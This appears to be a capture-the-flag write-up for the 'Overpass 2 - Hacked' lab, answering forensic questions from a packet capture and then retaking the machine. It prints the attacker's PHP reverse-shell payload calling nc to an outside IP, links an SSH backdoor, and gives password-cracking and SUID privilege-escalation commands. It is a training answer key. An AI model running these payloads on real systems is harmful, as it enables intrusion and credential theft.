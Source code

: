 # Overpass 2 - Hacked

If you are experiencing trouble, google `wireshark follow tcp stream`

- What was the URL of the page they used to upload a reverse shell?

	- Open Wireshark, and then open the pcap file.
	- `/development/`

- What payload did the attacker use to gain access?

	- You have to search a big POST request.
	- `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

- What password did the attacker use to privesc?

	- Packet no. 76
	- `whe***************tant`

- How did the attacker establish persistence?

	- Packet no. 120
	- `https://github.com/NinjaJc01/ssh-backdoor`

- Using the fasttrack wordlist, how many of the system passwords were crackable?

	- Save the content of response 114 on a file called `shadow`
	- `john --wordlist=fasttrack.txt shadow`
	- `*`

- What's the default hash for the backdoor?

	- [ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)
	- `******** ... ********`

- What's the hardcoded salt for the backdoor?

	- Same file as above
	- `********************************`

- What was the hash that the attacker used? - go back to the PCAP for this!

	- `*********** ... **************`

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

	- `hashcat -m 1710 -a 0 HASH_HERE:SALT_HERE /usr/share/wordlists/rockyou.txt`
	- `**********`

- The attacker defaced the website. What message did they leave as a heading?

	- Go to `http://<TARGET_IP>`
	- `H4ck3d by CooctusClan`

- Using the information you've found previously, hack your way back in!

	- `ssh james@<TARGET_IP> -p 2222`
	- Enter the password just cracked.
	- `cd .. && cat user.txt`
	- `thm{********************************}`

- What's the root flag?

	- `cd ~`
	- `ls -alh`
	- `./.suid-bash -p`
	- `cat /root/root.txt`
	- `thm{********************************}`